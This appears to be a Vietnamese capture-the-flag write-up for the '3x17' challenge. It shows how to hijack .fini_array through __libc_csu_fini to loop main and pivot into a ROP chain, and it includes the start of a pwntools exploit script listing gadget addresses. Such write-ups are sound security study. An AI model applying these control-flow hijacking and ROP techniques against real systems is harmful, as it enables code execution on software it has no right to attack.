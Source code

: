 ```c
+---------------------+             +---------------------+              +---------------------+             +---------------------+
|                     |             |                     |              |                     |             |                     |
|       main          |  +--------> |  __libc_csu_fini    |  +------->   |  .fini_array[1]     |  +------->  |   .fini_array[0]    |
|                     |             |                     |              |                     |             |                     |
+---------------------+             +---------------------+              +---------------------+             +---------------------+

```

ta sẽ thay đổi luồng thực thi như thế này 

```c
+---------------------+             +---------------------+              +---------------------+             +---------------------+
|                     |             |                     |              |                     |             |                     |
|       main          |  +--------> |  __libc_csu_fini    |  +------->   |  .fini_array[1]     |             |   .fini_array[0]    |
|                     |             |                     |              |  __libc_csu_fini    |             |   main              |
+---------------------+             +---------------------+              +---------------------+             +---------------------+

                                                                                ^          +
                                                                                |          |
                                                                                +----------+
```
tuy nhiên trong bài này có 1 biến toàn cục ```byte_4B9330``` giá trị của nó sẽ luôn tăng (0-256) , vậy tóm tắt flow chương trình sẽ như sau : 

main -> fini -> main ( .fini_array[1]) -> fini ( .fini_array[0]) , từ đây nó sẽ loop và ta có thể nhập được cho các lần sau 

- vậy ý tưởng cuối cùng là build 1 rop_chain , build xong thì dùng ```leave_ret``` vô ```.fini_array[0]``` và đơn giản là nó sẽ nhảy vô chuỗi ```ROP``` của ta ```0x4b4100```

script 

```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./3x17')

p = process()
"""
gdb.attach(p,gdbscript='''
           b*0x0000000000401C4C
           b*0x0000000000401B9B
           ''')
"""
esp = 0x4B4100
leave_ret = 0x401C4B
fini_array = 0x4B40F0
main_addr = 0x401B6D
libc_csu_fini = 0x402960
pop_rdx =0x0000000000446e35
pop_rsi = 0x0000000000406c30
pop_rdi = 0x0000000000401696
pop_rax = 0x000000000041e4af
syscall = 0x0000000000471db5
```
